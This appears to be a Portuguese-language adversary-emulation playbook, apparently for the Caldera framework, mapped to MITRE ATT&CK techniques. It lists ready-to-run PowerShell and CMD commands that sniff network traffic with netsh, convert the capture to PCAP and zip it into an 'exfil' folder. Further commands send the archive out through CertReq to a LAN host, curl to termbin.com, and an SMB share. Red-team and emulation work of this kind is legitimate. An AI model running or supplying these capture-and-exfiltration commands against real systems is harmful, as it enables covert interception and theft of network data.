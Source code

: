 - Iniciando a captura de trafego da rede [[`Discovery:T1040:Network Sniffing`](https://attack.mitre.org/techniques/T1040/)] (`powershell`)
```powershell
$env:HostIP = ( Get-NetIPConfiguration | Where-Object { $_.IPv4DefaultGateway -ne $null -and $_.NetAdapter.Status -ne "Disconnected" }).IPv4Address.IPAddress
netsh trace start capture=yes IPv4.Address=$env:HostIP tracefile=$env:TMP\caldera\capture.etl
Start-Sleep 90
netsh trace stop
```

- Convertendo arquivo __ETL__ para __PCAP__ [[`Collection:T1560.001:Archive via Utility`](https://attack.mitre.org/techniques/T1560/001/)] (`powershell`)
```powershell
if (Test-Path $env:TMP\caldera\downloads\etl2pcapng_curl.exe )     { &$env:TMP\caldera\downloads\etl2pcapng_curl.exe $env:TMP\caldera\capture.etl $env:TMP\caldera\exfil\capture_curl.pcap }
if (Test-Path $env:TMP\caldera\downloads\etl2pcapng_certutil.exe ) { &$env:TMP\caldera\downloads\etl2pcapng_certutil.exe $env:TMP\caldera\capture.etl $env:TMP\caldera\exfil\capture_certutil.pcap }
if (Test-Path $env:TMP\caldera\downloads\etl2pcapng_iwr.exe )      { &$env:TMP\caldera\downloads\etl2pcapng_iwr.exe $env:TMP\caldera\capture.etl $env:TMP\caldera\exfil\capture_iwr.pcap }
```

- Zipa a pasta __%tmp%\caldera\exfill__ [[`Collection:T1560:Archive Collected Data`](https://attack.mitre.org/techniques/T1560/)] (`powershell`)
```powershell
Compress-Archive -Path $env:TMP\caldera\exfil -DestinationPath $env:TMP\caldera\exfiltrate_caldera.zip
```

- Teste de exfiltracao (`CMD`)
  - CertReq.exe [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    ```cmd
    REM LAN
    CertReq.exe -Post -config "http://10.10.64.230/file/upload?cmd" %tmp%\caldera\exfiltrate_caldera.zip
    ```
  
  - Curl.exe [[`Exfiltration:T1567:Exfiltration Over Web Service`](https://attack.mitre.org/techniques/T1567/)]
    ```cmd
    REM WAN (termbin.com)
    curl -k -s http://termbin.com:9999 -d"Teste de Exfiltracao com CURL"
    ```

  - SMB (Porta: `445`) [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    - Executar no servidor: 
    ```bash
    cd ~/Downloads/tools/ICMP-TransferTools/files && smbserver.py -smb2support uploads ./uploads
    ```

    - Executar no cliente: 
    ```cmd
    REM LAN
    type %tmp%\caldera\exfiltrate_caldera.zip > \\10.10.64.230\uploads\exfiltrate_caldera.zip
    ```
